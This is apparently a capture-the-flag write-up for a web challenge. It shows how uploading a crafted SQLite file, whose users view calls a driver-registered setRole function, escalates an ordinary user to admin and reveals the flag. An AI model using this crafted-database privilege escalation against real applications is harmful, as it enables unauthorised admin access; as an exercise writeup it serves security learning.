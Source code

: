# building

Category: web

# Observations
  * target: `/admin` (an admin account is required to access it)
  * we can create users in our "room", but we can't create an admin - only an admin can create another admin
  * there is a pre-created admin account with `id=1`:
```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
...

INSERT INTO users (username, password_hash, role_id, room_id, created_at, updated_at) VALUES
    ('admin', ...);
```
  * to become an admin there are two possibilities (but we still need to bypass admin-check):
    1. by uploading csv or sqlite files with user data
    2. by changing user role
  * there is a registered function `setRole` - strange, why was this added to the DB driver?
    Given the ability to upload sqlite file, we can try calling `setRole` as an admin.

# Solution
## Prepare users
1. We can download a csv file with `/sample_csv` and upload it again to quickly create users.
2. After this, we can check the target user ID: `/api/rooms/137/users`
```json
{"id":424,"username":"user_344b447754513d3d@137","card_id":509896843049,"role_id":3}
```

## Prepare sqlite file with `setRole`
We need this file just to trigger `setRole` to our user with `id=424`.

```shell
$ sqlite3 vuln.db
sqlite> CREATE VIEW users AS
  SELECT
    setRole(424, 1, 1) AS username,
    '123' AS card_id,
    'user' AS role,
    'pass' AS password;
sqlite> 

```

## Getting the flag
1. Upload `vuln.db` as user data file
2. Retrieve the flag from `/admin`
